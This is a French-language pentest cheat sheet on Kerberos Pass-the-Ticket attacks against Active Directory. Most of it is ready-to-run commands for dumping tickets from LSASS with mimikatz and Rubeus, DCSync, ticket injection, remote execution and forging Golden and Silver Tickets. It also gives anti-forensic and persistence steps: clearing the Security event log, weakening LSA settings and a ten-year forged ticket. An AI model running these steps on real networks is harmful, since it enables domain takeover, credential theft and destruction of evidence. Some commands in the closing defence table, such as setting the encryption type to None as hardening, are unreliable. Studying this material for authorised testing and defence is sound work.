

Le **Pass-the-Ticket (PTT)** est une technique d'attaque permettant d'usurper l'identité d'un utilisateur au sein d'un environnement **Active Directory** en réutilisant des tickets **Kerberos** sans nécessiter le mot de passe ou le hash **NTLM** de l'utilisateur cible.



## Prérequis techniques
> [!danger] Privilèges requis
> L'exportation de tickets nécessite des privilèges **SYSTEM** ou **SeDebugPrivilege**.

> [!warning] Risque de crash
> L'utilisation de **mimikatz** sur des systèmes critiques peut provoquer des instabilités.

*   **Accès initial** : Nécessite un accès de type "Beacon" ou shell sur une machine jointe au domaine.
*   **Privilèges** : L'extraction des tickets depuis le processus **LSASS** requiert des privilèges d'administration locale (ou **SYSTEM**).
*   **Contexte** : L'attaquant doit être en mesure d'interagir avec le **KDC** (Key Distribution Center) du domaine.

## Analyse des contraintes de temps (TTL des tickets)
Les tickets Kerberos ont une durée de vie limitée définie par la politique de domaine (**Default Domain Policy**).
*   **TGT** : Généralement 10 heures.
*   **TGS** : Généralement 10 heures.
*   **Renouvellement** : Si le ticket est expiré, l'injection échouera. Il est possible de vérifier la validité avec `klist`.

```bash
# Vérifier la durée de vie restante d'un ticket
klist /v
```

## Différences entre TGT et TGS lors de l'injection
*   **TGT (Ticket Granting Ticket)** : L'injection d'un TGT permet d'obtenir des TGS pour n'importe quel service du domaine. C'est l'équivalent d'une session utilisateur complète.
*   **TGS (Service Ticket)** : L'injection d'un TGS limite l'attaquant au service spécifique (ex: **CIFS** pour le partage de fichiers). L'accès à d'autres services (ex: **LDAP**) sera refusé.

## Comprendre l'attaque PTT
Le protocole **Kerberos** repose sur deux types de tickets :
*   **TGT (Ticket Granting Ticket)** : Permet de demander des **TGS** pour accéder aux services.
*   **TGS (Service Ticket)** : Permet d'accéder à un service spécifique (ex: **CIFS**, **HTTP**).

L'injection d'un **TGT** permet une usurpation globale, tandis que l'injection d'un **TGS** limite l'accès au service pour lequel le ticket a été émis. Cette technique est étroitement liée aux concepts abordés dans **Active Directory Enumeration** et **Kerberos Attacks**.

## Récupération des tickets Kerberos

### Lister les tickets locaux
```bash
klist
```

### Extraction avec Mimikatz
```bash
mimikatz.exe
privilege::debug
sekurlsa::tickets /export
```
Les tickets sont exportés sous forme de fichiers `.kirbi`.

### Extraction avec Rubeus
```bash
Rubeus.exe dump
```

### Extraction à distance avec netexec
```bash
netexec smb target_ip -u user -p password --kerberos
```

### Récupération via DCSync
> [!info] Conditions critiques
> Le **SID** du domaine et le hash **NTLM** du compte **KRBTGT** sont indispensables pour un **Golden Ticket**.

```bash
mimikatz.exe
lsadump::dcsync /domain:lab.local /user:Administrator
```

## Injection et utilisation des tickets

### Injection avec Mimikatz
```bash
mimikatz.exe
kerberos::ptt ticket.kirbi
```

### Injection avec Rubeus
```bash
Rubeus.exe ptt /ticket:ticket.kirbi
```

### Vérification et exploitation
```bash
klist
dir \\target\c$
wmic /node:target_ip process call create "cmd.exe /c whoami"
```

### Session persistante
```bash
runas /netonly /user:DOMAIN\admin cmd.exe
PsExec.exe \\target cmd.exe
```

## Gestion des tickets en environnement Linux (Impacket/Keytab)
Sous Linux, les tickets sont souvent manipulés via des fichiers **ccache** ou des **keytabs**.

```bash
# Exporter un ticket vers une variable d'environnement
export KRB5CCNAME=/tmp/ticket.ccache

# Utiliser un ticket avec les outils Impacket
python3 psexec.py -k -no-pass domain/user@target_host

# Extraire un ticket depuis un keytab
python3 ticketConverter.py ticket.keytab ticket.ccache
```

## Exploitation avancée : Silver & Golden Tickets

*   **Golden Ticket** : Créé avec le hash **NTLM** du compte **KRBTGT**, il permet un accès total au domaine.
*   **Silver Ticket** : Créé avec le hash **NTLM** d'un service spécifique, il permet l'accès à une ressource précise.

### Création d'un Golden Ticket
```bash
mimikatz.exe
kerberos::golden /user:Administrator /domain:lab.local /sid:S-1-5-21-XXXX /krbtgt:NTLM_HASH /ptt
```

### Création d'un Silver Ticket (SMB)
```bash
mimikatz.exe
kerberos::golden /user:Administrator /domain:lab.local /sid:S-1-5-21-XXXX /target:target_server /service:cifs /rc4:NTLM_HASH /ptt
```

## Éviter la détection et persistance

> [!warning] Dangers
> La modification des clés de registre (**LSA**) peut alerter les solutions **EDR** ou **SIEM**.

> [!danger] Légalité et éthique
> L'utilisation de `wevtutil cl` pour effacer les journaux d'événements est une action hautement suspecte et destructrice de preuves. À n'utiliser que dans un cadre de test autorisé.

### Nettoyage et configuration
```bash
# Suppression des logs (Attention : action bruyante)
wevtutil cl Security

# Désactivation de la restriction d'administration
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value 1
```

### Exécution furtive
```powershell
Invoke-Mimikatz -Command '"kerberos::ptt ticket.kirbi"'
```

### Persistance longue durée
```bash
mimikatz.exe
kerberos::golden /user:admin /domain:lab.local /sid:S-1-5-21-XXXX /krbtgt:NTLM_HASH /ptt /endin:3650
```

## Défenses et contre-mesures

| Action | Commande / Méthode |
| :--- | :--- |
| Réinitialisation **KRBTGT** | `Reset-KrbtgtPassword` |
| Audit des services **Kerberos** | `auditpol /set /subcategory:"Kerberos Authentication Service" /success:enable /failure:enable` |
| Protection réutilisation | `Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value 0` |
| Durcissement machine | `Set-ADComputer -Identity "TARGET-PC" -KerberosEncryptionType None` |

### Surveillance SIEM
Recherche d'anomalies sur les **EventCode 4769** :
```text
index=windows EventCode=4769 (Ticket_Options=0x40810000 OR Ticket_Options=0x40800000)
```

Pour approfondir ces sujets, consulter les notes sur **Lateral Movement Techniques**, **Persistence Mechanisms**, et **Mimikatz Advanced Usage**.